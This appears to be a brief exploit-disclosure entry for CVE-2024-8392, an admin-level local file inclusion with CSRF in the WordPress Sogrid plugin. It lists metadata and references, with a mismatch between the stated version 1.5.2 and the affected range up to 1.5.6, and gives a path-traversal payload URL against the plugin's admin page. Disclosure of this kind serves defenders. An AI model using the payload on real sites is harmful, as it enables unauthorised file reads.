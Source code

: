 ## WordPress Post Grid Layouts with Pagination – Sogrid <= 1.5.6 - Authenticated (Admin+) Local File Inclusion with CSRF
- Exploit Title: WordPress Post Grid Layouts with Pagination – Sogrid <= 1.5.6 - Authenticated (Admin+) Local File Inclusion with CSRF
- Date: 04/08/2024
- Exploit Author: Paul
- Vendor Homepage: https://delabon.com/
- Software Link: https://wordpress.org/plugins/sogrid/
- Version: 1.5.2
- CVE : CVE-2024-8392
- Payload: http://localhost/wordpress/wp-admin/admin.php?page=sogrid&tabe=..%2Ffile
- POC: https://imgur.com/W0nIrf8
## References
- https://nvd.nist.gov/vuln/detail/CVE-2024-8392
- https://plugins.trac.wordpress.org/browser/sogrid/trunk/src/admin-panel/views/panel.php
- https://www.wordfence.com/threat-intel/vulnerabilities/id/62d81e01-9b6e-48e9-b9da-85444a3694e7?source=cve


